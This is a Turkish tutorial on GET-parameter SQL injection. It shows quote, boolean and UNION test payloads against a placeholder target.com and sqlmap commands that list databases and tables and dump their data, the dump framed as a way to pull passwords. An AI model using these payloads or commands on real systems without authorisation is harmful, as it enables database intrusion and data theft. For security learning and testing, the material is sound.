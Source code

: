 📌 SQL Enjeksiyonu (SQLi) - GET Metodu Üzerinden Saldırı
1️⃣ GET Tabanlı SQL Enjeksiyonu Nedir?
GET metodu, web uygulamalarında URL parametreleri aracılığıyla veri iletmek için kullanılır. Eğer geliştirici girişleri düzgün şekilde filtrelememişse, saldırganlar URL üzerinden SQL sorgularını manipüle edebilir.
📌 Örnek Hedef URL:
plaintext
```plaintext
https://target.com/product.php?id=5
```

Eğer id parametresi doğrudan SQL sorgusuna ekleniyorsa:
sql
```sql
SELECT * FROM products WHERE id = '5';
```

Bu sorgu, saldırıya açık olabilir.


2️⃣ GET SQLi Testi (Manuel)
Web sitesinin SQL Injection’a karşı savunmasız olup olmadığını anlamak için birkaç temel test yapılabilir.
🔹 1. Tek Tırnak (') ile Test Etme
plaintext
```plaintext
https://target.com/product.php?id=5'
```
Eğer hata mesajı alırsanız (örneğin MySQL syntax error), hedef SQL Injection’a karşı savunmasız olabilir.
🔹 2. Boolean-Based SQLi Testi
Bu test, farklı ifadelerin TRUE veya FALSE sonuçları verip vermediğini kontrol eder.
✅ Doğru Sonuç Döndürmeli
plaintext
https://target.com/product.php?id=5 AND 1=1
❌ Hata veya Boş Sayfa Döndürmeli
plaintext
https://target.com/product.php?id=5 AND 1=2
Eğer sayfa değişiyorsa, SQL Injection açığı olabilir.
🔹 3. UNION Based SQLi Testi
plaintext
```sql
https://target.com/product.php?id=5 UNION SELECT 1,2,3--
```
📌 Eğer site açık verirse, sayfanın farklı kısımlarında 1, 2, 3 gibi değerleri görebilirsiniz.

3️⃣ SQLmap ile GET SQLi Testi
Eğer GET parametresi saldırıya açık görünüyorsa, SQLmap kullanılarak otomatik test yapılabilir.
bash
```bash
sqlmap -u "https://target.com/product.php?id=5" --dbs
✅ --dbs: Veritabanı isimlerini listeler.
```
📌 Eğer daha fazla detay istenirse:
bash
```bash
sqlmap -u "https://target.com/product.php?id=5" --tables
✅ --tables: Veritabanındaki tabloları gösterir.
```
📌 Eğer şifreleri çekmek isterseniz:
bash
```bash
sqlmap -u "https://target.com/product.php?id=5" --dump
✅ --dump: Tüm verileri çeker.
```
